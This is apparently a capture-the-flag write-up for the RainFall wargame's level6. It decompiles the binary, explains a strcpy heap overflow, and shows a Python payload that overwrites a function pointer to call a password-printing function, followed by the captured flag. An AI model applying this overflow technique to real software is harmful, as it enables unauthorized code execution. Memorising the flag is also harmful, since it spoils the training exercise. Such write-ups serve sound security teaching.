 # Level5

## Intro

In this level we have a binary `level6`. When we execute it without arguments, a segfault appen
```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```

But when we run it with a argument we have a message `Nope`:
```bash
level6@RainFall:~$ ./level6 ddfg 
Nope
level6@RainFall:~$ ./level6 ddfg fghfg
Nope
level6@RainFall:~$ ./level6 ddfg fghfg uyui
Nope
```

## Analyse
Now let analyse the code,
```c
void main(undefined4 param_1,int param_2)

{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```
```c
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}
```
```c
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}
```
## Explanation
As we can see we have the main, this main we have 2 allocation with malloc.
The first one with 0x40 = 64 bytes, and the second one of 4 bytes. Then we add the function `m` to ppcVar1[1], after that we have a strcpy to copy the content of `(char **)(param_2 +4)` (it can be interpret by `param_2[1]`) in __dest. But when we read the man of strcpy we see this

```
BUGS:
If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for tak‐
ing complete control of the machine.  Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space.  This may be  un‐
necessary if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make the impossible possible.
```
That mean we there is a vulnerability in strcpy that we can exploit.

We have to overflow the `__dest` and that will cause a segfault at the strcpy function and allow us to acces to the next address, and the next address is `  (**ppcVar1)();` and the goal is to replace this one by `n()`

## Retrieving the Next Level Password

After find the addresse of `n()` = `0x08048454`, we now know, we create a python script
```python
import struct

my_var = b"A" * 72 
my_var += struct.pack("<I", 0x08048454) #addr of n()
print(my_var)
```

Now we just have to run the binary with this script:
```bash
level6@RainFall:~$ ./level6 $(python /tmp/solve.py)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

That print our flag:
`f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`